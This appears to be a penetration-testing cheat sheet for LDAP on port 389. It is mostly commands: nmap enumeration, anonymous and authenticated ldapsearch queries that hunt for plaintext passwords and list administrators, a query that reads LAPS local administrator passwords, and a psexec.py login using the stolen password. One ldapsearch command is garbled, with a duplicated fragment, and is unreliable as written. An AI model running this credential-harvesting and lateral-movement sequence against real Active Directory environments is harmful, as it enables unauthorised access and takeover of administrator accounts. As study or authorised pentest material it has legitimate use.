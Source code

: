 # 389 - LDAP

## Enumeration

```
nmap -n -sV --script "ldap* and not brute" <ip>  
```

### Empty login

Enumerate users and associated data. The description field may contain plaintext credentials.

```
ldapsearch -x -h <ip> -D "" -w "" -b "DC=<subdomain>,DC=<tld>"

ldapsearch -x -h <ip> -D "" -w "" -b "DC=<subdomain>,DC=<tld>" | grep sAMAccountName
ldapsearch -x -h <ip> -D "" -w "" -b "DC=<subdomain>,DC=<tld>" | grep description
ldapsearch -x -h <ip> -D "" -w "" -b "DC=<subdomain>,DC=<tld>" | grep userpas
```

## Enumeration with credentials

```
ldapsearch -x -h <ip> -D '<domain>\<user>' -w '<pass>' -b "<CN string>,DC=<subdomain>,DC=<TLD>"sers,DC=<subdomain>,DC=<TLD>"
```

Set `CN string` to one of the following values:

* `CN=Users`: list all users
* `CN=Administrators,CN=Builtin`: list all administrators
* `CN=<username>,CN=Users`: get information about a specific user
* `CN=Domain Admins,CN=Users`: list domain admins
* `CN=Domain Users,CN=Users`: list domain users
* `CN=Enterprise Admins,CN=Users`: list enterprise admins
* `CN=Computers`: list machines

## Administrative password

Requires access to LDAP with a valid username and password.

```
ldapsearch -x -h <ip> -D '<domain>\<user>' -w '<pass>' -b "DC=<subdomain>,DC=<tld>" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd 
```

If successful it is possible to login using impacket's psexec.py script. The user is usually the local administrator.

```
psexec.py <domain>/administrator:'<pass>'@<ip>
```

